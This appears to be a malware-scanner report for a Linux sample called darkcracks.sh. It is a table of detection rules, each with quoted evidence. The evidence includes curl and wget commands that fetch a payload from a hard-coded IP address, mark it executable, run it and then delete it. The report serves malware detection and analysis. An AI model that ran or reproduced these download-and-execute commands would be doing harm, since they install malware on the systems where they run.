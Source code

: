 ## linux/2024.Darkcracks/darkcracks.sh [😈 CRITICAL]

| RISK | KEY | DESCRIPTION | EVIDENCE |
|--|--|--|--|
| CRITICAL | [evasion/file/location/chdir_unusual](https://github.com/chainguard-dev/malcontent/blob/main/rules/evasion/file/location/chdir-unusual.yara#cd_val_obsessive) | changes directory to multiple unusual locations | [cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /;](https://github.com/search?q=cd+%2F%3B&type=code) |
| CRITICAL | [evasion/self_deletion/run_and_delete](https://github.com/chainguard-dev/malcontent/blob/main/rules/evasion/self_deletion/run_and_delete.yara#run_sleep_delete) | run executable, sleep, and delete | [chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[rm ./wdvsh](https://github.com/search?q=rm+.%2Fwdvsh&type=code)<br>[rm ./agr](https://github.com/search?q=rm+.%2Fagr&type=code)<br>[sleep 3](https://github.com/search?q=sleep+3&type=code) |
| CRITICAL | [net/download/fetch](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/download/fetch.yara#curl_download_ip) | Invokes curl to download a file from an IP | [curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o&type=code) |
| HIGH | [c2/addr/ip](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/addr/ip.yara#http_hardcoded_ip) | hardcoded IP address within a URL | [http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/pQ1iM9hd-x64-musl](http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/pQ1iM9hd-x64-musl)<br>[http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v](http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v) |
| HIGH | [c2/tool_transfer/shell](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/tool_transfer/shell.yara#tool_chmod_relative_run_tiny) | fetch file, make it executable, and run it | [curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o agr](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o+agr&type=code)<br>[wget http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -O agr](https://github.com/search?q=wget+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-O+agr&type=code)<br>[chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[./agr](https://github.com/search?q=.%2Fagr&type=code) |
| MEDIUM | [exec/shell/exec](https://github.com/chainguard-dev/malcontent/blob/main/rules/exec/shell/exec.yara#calls_shell) | executes shell | [/bin/bash](https://github.com/search?q=%2Fbin%2Fbash&type=code) |
| MEDIUM | [fs/file/make_executable](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/file/file-make_executable.yara#chmod_executable_shell) | makes file executable | [chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code) |
| MEDIUM | [fs/path/relative](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/relative.yara#relative_path_val) | references and possibly executes relative path | [./wdvsh](https://github.com/search?q=.%2Fwdvsh&type=code)<br>[./agr](https://github.com/search?q=.%2Fagr&type=code) |
| MEDIUM | [fs/path/root](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/root.yara#root_path_val) | path reference within /root | [/root](https://github.com/search?q=%2Froot&type=code) |
| MEDIUM | [fs/permission/modify](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/permission/permission-modify.yara#chmod) | [modifies file permissions](https://linux.die.net/man/1/chmod) | [chmod](https://github.com/search?q=chmod&type=code) |
| LOW | [fs/path/var](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/var.yara#var_path) | path reference within /var | [/var/run](https://github.com/search?q=%2Fvar%2Frun&type=code) |
| LOW | [net/url/embedded](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/url/embedded.yara#http_url) | contains embedded HTTP URLs | [http://179.191.68.85](http://179.191.68.85) |
| LOW | [process/chdir](https://github.com/chainguard-dev/malcontent/blob/main/rules/process/chdir.yara#chdir_shell) | changes working directory | [cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code) |

